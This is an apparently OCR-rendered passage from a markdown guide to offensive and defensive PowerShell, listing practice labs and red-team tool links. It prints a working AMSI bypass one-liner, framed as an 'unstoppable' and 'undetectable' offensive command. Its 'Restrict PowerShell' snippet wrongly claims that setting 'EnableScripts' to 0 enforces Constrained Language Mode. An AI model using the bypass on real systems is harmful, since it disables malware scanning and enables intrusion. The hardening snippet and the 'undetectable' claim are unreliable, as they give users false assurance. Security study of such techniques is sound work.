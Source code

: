 #### **C. Restrict PowerShell**  
```powershell  
# Enforce Constrained Language Mode (like `rbash`)  
New-Item -Path "HKLM:\Software\Policies\Microsoft\Windows\PowerShell" -Force;  
Set-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows\PowerShell" -Name "EnableScripts" -Value 0  
```  

---

### **5. Ethical Practice Labs**  
1. **Safe Environments**:  
   - **Windows Sandbox** (built-in Windows 10/11).  
   - **Flare-VM** (malware analysis VM).  
2. **Offensive Labs**:  
   - TryHackMe: **Advent of Cyber** (PowerShell-heavy rooms).  
   - Hack The Box: **Windows Machines** (e.g., **Jerry**, **Blue**).  
3. **Defensive Tools**:  
   - **Sysmon** (log PowerShell activity).  
   - **PowerShell Audit** module.  

---

### **Key Resources**  
- **Microsoft Docs**: [PowerShell Documentation](https://docs.microsoft.com/en-us/powershell/)  
- **PowerShell Empire**: [GitHub](https://github.com/BC-SECURITY/Empire)  
- **Red Team PowerShell**: [PSAttack](https://github.com/jaredhaight/PSAttack)  

---






---

### **Most "Powerful" PowerShell Commands**  
These commands are highly impactful in offensive security due to their ability to bypass defenses, manipulate systems at a deep level, or evade detection.  

---

### **1. Unstoppable (or Nearly Unstoppable) Commands**  
*(When executed with sufficient privileges and no layered defenses)*  

#### **A. AMSI Bypass (Disables Antimalware Scan Interface)**  
```powershell  
# Memory-patching AMSI (undetectable if done pre-scan)  
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiContext','NonPublic,Static').SetValue($null,$null)  
```  
- **Why Unstoppable?**: Disables script scanning in real-time.  
- **Defense**: Enable **Tamper Protection** in Defender.  
